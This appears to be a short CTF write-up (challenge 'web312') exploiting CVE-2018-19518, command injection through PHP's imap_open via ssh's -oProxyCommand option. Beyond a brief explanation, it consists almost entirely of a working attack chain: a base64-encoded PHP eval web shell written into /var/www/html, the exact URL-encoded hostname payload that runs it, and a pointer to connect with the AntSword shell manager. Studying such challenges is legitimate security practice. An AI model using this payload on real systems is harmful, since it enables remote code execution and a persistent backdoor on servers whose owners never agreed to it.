


# CVE-2018-19518
web312

php版本5.6.38
```
php imap扩展用于在PHP中执行邮件收发操作。其imap_open函数会调用rsh来连接远程shell，而debian/ubuntu中默认使用ssh来代替rsh的功能（也就是说，在debian系列系统中，执行rsh命令实际执行的是ssh命令）。%0D%0A因为ssh命令中可以通过设置-oProxyCommand=来调用第三方命令，攻击者通过注入注入这个参数，最终将导致命令执行漏洞。
```

```
echo "PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+" | base64 -d >/var/www/html/shell.php
->
ZWNobyAiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTVYwcE96OCsiIHwgYmFzZTY0IC1kID4vdmFyL3d3dy9odG1sL3NoZWxsLnBocA==

```
抓包将hostname参数改为

```
x+-oProxyCommand%3decho%09ZWNobyAiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTVYwcE96OCsiIHwgYmFzZTY0IC1kID4vdmFyL3d3dy9odG1sL3NoZWxsLnBocA%3d%3d|base64%09-d|sh}#注意将=url编码,最后的}不能去掉
```

蚁剑连接shell.php
